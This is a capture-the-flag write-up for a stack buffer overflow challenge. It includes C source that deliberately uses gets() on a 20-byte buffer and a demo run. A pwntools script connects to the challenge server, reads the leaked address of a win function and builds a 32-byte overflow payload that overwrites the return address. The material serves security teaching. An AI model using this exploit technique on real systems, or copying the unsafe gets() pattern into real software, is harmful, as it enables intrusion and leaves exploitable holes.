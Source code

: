 For the challenge we are provided main.c, a main binary and a nc session which runs the same binary remotely.

main.c:

```c
#include <string.h>
#include <stdio.h> 

void secret() {
  puts("ltdh21{N0t_T0dAy_SuCK3r5}\n");
}

void name() {
  puts("What is your name: ");
  char str[20]; 
    gets(str);
    printf("Hello %s\n", str); 
}  

int main( int argc, char** argv ) {
    printf("There is a secret at: %p\n", secret);
    name();
    return 0; 
}
```

This is a simple buffer overflow challenge. Running the binary we are promped to provide a name, which is the printed to screen. The binary also provides the memory address of the secret() function.

```bash
$ ./main 
There is a secret at: 0x5660020d
What is your name: 
JDMCE
Hello JDMCE

```

This address changes each time the binary is run so we will have to extract that in our exploit script.

We can cause a segmentation fault by overflowing the input buffer which the source tells us is str[20]. Using gdb/gef I determined the offset required to overwrite $eip which is 32, we can now write an exploit script

```python
#!/usr/bin/env python3

from pwn import *
import re

#p = process('./main')

p = remote("206.189.123.169", 5001)

output = p.recvline()
log.info(output)

win_addr = re.findall("0[xX][0-9a-fA-F]+", str(output))
win_addr = int(win_addr[0], base=16)
log.info(f"Win address = {win_addr}")

offset = 32
junk = b'A' * offset

payload = [junk, p32(win_addr)]
payload = b"".join(payload)
```